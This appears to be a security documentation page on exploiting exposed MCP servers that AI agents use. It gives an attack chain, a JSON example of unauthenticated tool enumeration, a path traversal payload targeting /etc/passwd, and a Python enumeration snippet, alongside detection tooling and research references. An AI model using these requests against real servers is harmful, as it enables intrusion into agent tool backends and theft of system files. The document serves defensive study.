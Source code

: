 1. **Initial Stage**: Attacker scans for exposed MCP endpoints using tools like Nmap or masscan, identifying open ports and MCP-specific responses.
2. **Distribution**: Not applicable, as exploitation is direct.
3. **Installation**: Attacker connects without credentials, often exploiting debug modes.
4. **Exploitation Stage**: Send crafted requests to enumerate tools or trigger vulnerabilities like path traversal or RCE.
5. **Post-Exploitation**: Use gained access to deploy payloads, steal data, or pivot internally.

For a detailed visual, see the inline Attack Flow Diagram above.

### Example Scenario
```json
// Example unauthenticated request to exposed MCP endpoint
{
  "method": "GET",
  "url": "http://vulnerable-mcp-server:8000/tools",
  "response": {
    "tools": [
      {"name": "file_reader", "description": "Reads files"},
      {"name": "exec_command", "description": "Executes shell commands"}
    ]
  }
}
// Follow-up exploitation: POST to /execute with path traversal payload
{
  "tool": "file_reader",
  "params": {"path": "../../etc/passwd"}
}
```

### Proof of Concept Examples
We provide examples to demonstrate and detect this technique:

1. **[Exposed Endpoint PoC](examples/exposed-endpoint-poc.py)**: Demonstrates scanning and exploitation of MCP endpoints, including path traversal and RCE simulation.
2. **[Endpoint Detector](examples/endpoint-detector.py)**: Scans for exposed MCP APIs and checks for authentication; usage: `python examples/endpoint-detector.py [target-ip]`.

```python
# Example PoC snippet for endpoint enumeration
import requests
try:
    response = requests.get("http://target:8000/tools")
    if response.status_code == 200:
        print("Exposed tools:", response.json())
except:
    print("Endpoint not exposed or secured")
```

### Advanced Attack Techniques (2025 Research)

#### API-Specific Vulnerabilities (2025 Research)
According to the 2025 API ThreatStats Report, AI-driven APIs like MCP saw a 1025% rise in vulnerabilities, with exposed endpoints enabling RCE in 70% of scanned instances ([Wallarm, 2025](https://hubspot.wallarm.com/hubfs/Annual%25202025%2520API%2520ThreatStatsTM%2520Report.pdf); [JFrog, 2025](https://jfrog.com/blog/2025-6514-critical-mcp-remote-rce-vulnerability/)):


[MCP-Scan]: Detects exposed endpoints ([Invariant Labs, 2025](https://invariantlabs.ai/blog/introducing-mcp-scan)).